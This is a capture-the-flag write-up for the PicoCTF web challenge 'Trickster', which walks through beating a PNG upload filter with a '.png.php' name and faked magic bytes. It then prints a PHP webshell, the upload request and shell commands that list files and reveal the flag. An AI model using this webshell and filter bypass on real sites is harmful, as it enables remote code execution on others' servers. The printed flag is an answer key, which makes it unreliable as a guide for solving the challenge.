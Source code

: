 ```yaml
---
title: "Trickster"
description: "I found a web app that can help process images: PNG images only!"
pubDate: 2025-03-20
category: "web"
author: "tulip  "
section: "PicoCTF"
tags: ["medium"]
# image: "./images/picoctf/trickster/icon.png"
---
```


**Note: Certain details about the solve may differ if tried elsewhere, as this challenge is instanced.**

When we first open the webapp, we are given the option to upload a file. And.. not much else.

![start.png](images/picoctf/trickster/start.png)

Playing around, we can uncover some of the inner workings of the app. The file must *contain* `.png`.
```
Error: File name does not contain '.png'. 
```

It also seems the server likes to break randomly, if you give it too large of a file. This may have just been an issue with my instance.
```
Fatal error: Uncaught ValueError: Path cannot be empty in /var/www/html/index.php:18 Stack trace: #0 /var/www/html/index.php(18): file_get_contents('') #1 {main} thrown in /var/www/html/index.php on line 18
```

If we change a random file to end in `.png`, we get the following error. 
```
Error: The file is not a valid PNG image: c289500d
```

So what's going on?? Well, the server is performing a bunch of (insecure) checks to see if our file is a valid PNG image. We have to find ways to bypass them. Let's test. If we upload a valid PNG file named `test.png.php`, the server lets us through. So we can bypass the filename check like that. 

But what about the strange error about the file not being a valid PNG image? Well, how does the application know? Let's test. Sending a file named `c.png` with contents:
```
bruhasadsadasdsadas
```

The webapp returns this error.
```
Error: The file is not a valid PNG image: 62727568
```

..hey, that hex looks readable! And it turns out it decodes into the first four bytes of our file! This is how many programs check filetypes, known as the magic bytes or file signature. So all we need to do is include the first four bytes of a PNG file into our payload, and the app will think it's a PNG file.

So what can we do with this? Well, remember that file named `test.png.php`? If we can put whatever we want in there, the server will execute it as arbitrary PHP. This opens up a huge vulnerability and allows us to upload a webshell to the server. We can construct a simple one (or take one from the many webshells people have constructed) and put it in our file. Using burp, we submit this:

```
### REQUEST ###

Content-Disposition: form-data; name="file"; filename="b.png.php"
Content-Type: image/png

PNG

<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>

### RESPONSE ###

File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully
```

That worked! Note that the `PNG` at the start there includes some extra bytes that don't translate into an ASCII character (the magic bytes for a PNG are 89504E47). Now we just need to find out where to view our files to be able to access this webshell to execute arbitrary commands. Checking the `robots.txt`, we can see:
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

So our files must go to `/uploads/`. Let's go there, and put a command in. 
```
http://atlas.picoctf.net:50059/uploads/b.png.php?cmd=ls

�PNG  b.png.php ssssssss.png 
```

We are just listing the current directory, let's view the home directory.

```
http://atlas.picoctf.net:50059/uploads/b.png.php?cmd=ls%20..

�PNG  GNTDOMBWGIZDE.txt index.php instructions.txt robots.txt uploads 
```

That `GNTDOMBWGIZDE.txt` file looks suspicious... let's check it out!

```
http://atlas.picoctf.net:50059/GNTDOMBWGIZDE.txt
```

Flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}`